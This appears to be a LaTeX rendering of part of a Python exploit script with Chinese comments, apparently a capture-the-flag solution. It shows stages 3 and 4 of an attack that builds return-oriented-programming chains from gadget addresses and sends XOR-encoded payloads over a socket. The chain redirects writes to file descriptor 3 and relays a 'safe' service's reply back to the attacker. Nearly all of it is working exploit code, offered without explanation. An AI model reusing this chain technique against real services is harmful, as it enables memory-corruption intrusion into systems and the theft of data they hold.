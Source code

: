 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\FloatTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# {-}{-}{-}{-} 階段 3：同一個模式，只是把 write 的 fd 改成 3 {-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}}
\NormalTok{d2 }\OperatorTok{=} \BuiltInTok{bytearray}\NormalTok{(}\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}0}\StringTok{\textquotesingle{}} \OperatorTok{*} \DecValTok{255}\NormalTok{)}
\NormalTok{d2[}\DecValTok{0}\NormalTok{:}\DecValTok{8}\NormalTok{] }\OperatorTok{=}\NormalTok{ xor\_key(p8(}\DecValTok{3}\NormalTok{) }\OperatorTok{+} \StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}x00\textbackslash{}x04}\StringTok{\textquotesingle{}} \OperatorTok{+}\NormalTok{ p8(}\DecValTok{0}\NormalTok{) }\OperatorTok{+}\NormalTok{ p32(}\BaseNTok{0xfffffffc}\NormalTok{), key)}
\NormalTok{chain  }\OperatorTok{=}\NormalTok{ [POP\_RDI, }\DecValTok{3}\NormalTok{, POP\_RSI, A2, WRITE\_RDX\_RAX,}
\NormalTok{          POP\_RSI, A2 }\OperatorTok{+} \DecValTok{3}\NormalTok{, WRITE\_RDX\_RAX,}
\NormalTok{          POP\_RSI, A2 }\OperatorTok{+} \DecValTok{6}\NormalTok{, WRITE\_RDX\_RAX,}
\NormalTok{          POP\_RBX, }\BaseNTok{0xff}\NormalTok{, SUBMIT\_READ]}
\NormalTok{A3 }\OperatorTok{=}\NormalTok{ A2 }\OperatorTok{+} \BaseNTok{0x48} \OperatorTok{+} \DecValTok{8} \OperatorTok{*} \BuiltInTok{len}\NormalTok{(chain)}
\NormalTok{RESP }\OperatorTok{=}\NormalTok{ A3 }\OperatorTok{+} \BaseNTok{0x60}
\NormalTok{d2[}\BaseNTok{0x48}\NormalTok{:}\BaseNTok{0x48} \OperatorTok{+} \DecValTok{8} \OperatorTok{*} \BuiltInTok{len}\NormalTok{(chain)] }\OperatorTok{=} \StringTok{b\textquotesingle{}\textquotesingle{}}\NormalTok{.join(p64(x) }\ControlFlowTok{for}\NormalTok{ x }\KeywordTok{in}\NormalTok{ chain)}
\NormalTok{io.send(}\BuiltInTok{bytes}\NormalTok{(d2))}
\NormalTok{io.recvuntil(}\StringTok{b\textquotesingle{}OK}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}}\NormalTok{, timeout}\OperatorTok{=}\DecValTok{3}\NormalTok{)   }\CommentTok{\# (6) 這次 read 印的 OK\textbackslash{}n}

\CommentTok{\# {-}{-}{-}{-} 階段 4 {-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}}
\NormalTok{time.sleep(}\FloatTok{0.7}\NormalTok{)                    }\CommentTok{\# 等保險箱的回覆到齊}
\NormalTok{d3 }\OperatorTok{=} \BuiltInTok{bytearray}\NormalTok{(}\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}0}\StringTok{\textquotesingle{}} \OperatorTok{*} \DecValTok{120}\NormalTok{)}
\NormalTok{d3[}\BaseNTok{0x40}\NormalTok{:}\BaseNTok{0x48}\NormalTok{] }\OperatorTok{=}\NormalTok{ p64(RESP)          }\CommentTok{\# rbx = RELAY\_RX 的緩衝區}
\NormalTok{d3[}\BaseNTok{0x48}\NormalTok{:}\BaseNTok{0x50}\NormalTok{] }\OperatorTok{=}\NormalTok{ p64(RELAY\_RX)      }\CommentTok{\# ret → read(3, RESP, 0x100) + 解密 + 印出}
\NormalTok{io.send(}\BuiltInTok{bytes}\NormalTok{(d3))}
\BuiltInTok{print}\NormalTok{(io.recvall(timeout}\OperatorTok{=}\DecValTok{3}\NormalTok{))}
\end{Highlighting}
\end{Shaded}
\end{document}
